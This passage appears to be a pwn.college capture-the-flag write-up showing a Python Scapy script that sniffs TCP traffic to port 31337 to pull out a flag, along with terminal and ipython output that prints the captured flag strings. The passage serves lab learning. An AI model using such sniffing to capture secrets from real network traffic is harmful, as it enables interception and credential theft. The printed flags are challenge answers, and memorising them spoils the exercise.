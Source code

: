 We can use a simple Python script to capture the flag byte by byte and craft the complete flag.

```py title="~/script.py" showLineNumbers
from scapy.all import sniff, Raw

buffer = b""

def handle_packet(packet):
    global buffer
    if packet.haslayer(Raw):
        buffer += bytes(packet[Raw])
        if b'pwn.college{' in buffer and b'}' in buffer:
            start = buffer.find(b'pwn.college{')
            end = buffer.find(b'}', start)
            if end != -1:
                flag = buffer[start:end+1]
                print(f"\nFlag captured: {flag.decode(errors='ignore')}")
                exit(0)  # stop sniffing

sniff(filter="tcp dst port 31337", prn=handle_packet)
```

```
root@ip-10-0-0-1:/# python ~/script.py
pwn.college{IL2Wo8FGsB4o4H7REi29XRi3yzx.dNzNzMDL4ITM0EzW}


Flag captured: pwn.college{I4fIyKwkQexXwA6EYgWabI6ocRG.dRjNzMDL4ITM0EzW}
```

For some reason it prints some other flag-like string right after we run the script.
This is not an issue in `ipython`.

```py
In [1]: from scapy.all import sniff, Raw
   ...: 
   ...: buffer = b""
   ...: 
   ...: def handle_packet(packet):
   ...:     global buffer
   ...:     if packet.haslayer(Raw):
   ...:         buffer += bytes(packet[Raw])
   ...:         if b'pwn.college{' in buffer and b'}' in buffer:
   ...:             start = buffer.find(b'pwn.college{')
   ...:             end = buffer.find(b'}', start)
   ...:             if end != -1:
   ...:                 flag = buffer[start:end+1]
   ...:                 print(f"\nFlag captured: {flag.decode(errors='ignore')}")
   ...:                 exit(0)  # stop sniffing
   ...: 
   ...: sniff(filter="tcp dst port 31337", prn=handle_packet)
   ...: 

Flag captured: pwn.college{I4fIyKwkQexXwA6EYgWabI6ocRG.dRjNzMDL4ITM0EzW}
```
